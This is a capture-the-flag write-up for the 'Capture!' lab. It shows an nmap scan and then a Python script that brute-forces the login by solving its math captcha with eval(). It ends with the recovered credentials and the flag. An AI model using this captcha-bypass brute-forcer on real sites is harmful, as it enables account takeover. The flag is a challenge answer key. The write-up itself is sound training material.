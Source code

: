 # Capture!

SecureSolaCoders has once again developed a web application. They were tired of hackers enumerating and exploiting their previous login form. They thought a Web Application Firewall (WAF) was too overkill and unnecessary, so they developed their own rate limiter and modified the code slightly.

---

## Nmap

```bash
nmap -sV -p- -T4 <IP> -vv
```

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Werkzeug/2.2.2 Python/3.8.10
```

<img width="1847" height="963" alt="Screenshot From 2025-09-05 19-10-12" src="https://github.com/user-attachments/assets/9e161647-7470-4c46-8bbc-1a2138091751" />

---

## Web Enumeration

Going to the web page we get a login screen. SQL injections don’t work and we get back an error saying the user does not exist. But when you add a valid name like `billy`, you get a captcha enabled with a math question.

When you solve it, it doesn’t work. That means we’ll need a script!

---

## Script

This script was found online. Credit:
[https://github.com/l1asis/thm-writeups/blob/main/Capture/Capture.md](https://github.com/l1asis/thm-writeups/blob/main/Capture/Capture.md)

```python
import requests, re

url = "http://capture.thm/login"

with open("usernames.txt", "rt") as fd:
    usernames = fd.read().splitlines()

with open("passwords.txt", "rt") as fd:
    passwords = fd.read().splitlines()

regex = re.compile(r"(\d+\s[+*/-]\s\d+)\s\=\s\?")

def send_post(username, password, captcha=None):
    data = {
        "username":username,
        "password":password,
    }
    if captcha:
        data.update({"captcha":captcha})
    response = requests.post(url=url, data=data)
    return response

def solve_captcha(response):
    captcha = re.findall(regex, response.text)[0]
    return eval(captcha)

for count in range(100):
    response = send_post("darthvader", "lukesfather")
    try:
        captcha = solve_captcha(response)
        print(f"Captcha synchronised! Next solution is: {captcha}")
        break
    except:
        pass

for username in usernames:
    response = send_post(username, "None", captcha)
    captcha = solve_captcha(response)
    if not "does not exist" in response.text:
        for password in passwords:
            response = send_post(username, password, captcha)
            if not "Error" in response.text:
                print(f"Success! Username:{username} Password:{password}")
                exit(0)
            else:
                captcha = solve_captcha(response)
```

---

## Exploit Result

After running the script we get the password:

```bash
root@ip-10-201-62-217:~# python3 script.py 
Captcha synchronised! Next solution is: 459
Success! Username:natalie Password:sk8board
```

---

## Flag

Reading `flag.txt`:

```
7df2eabce36f02ca8ed7f237f77ea416
```

---

## Flag

> Q1: Flag
> A1: 7df2eabce36f02ca8ed7f237f77ea416
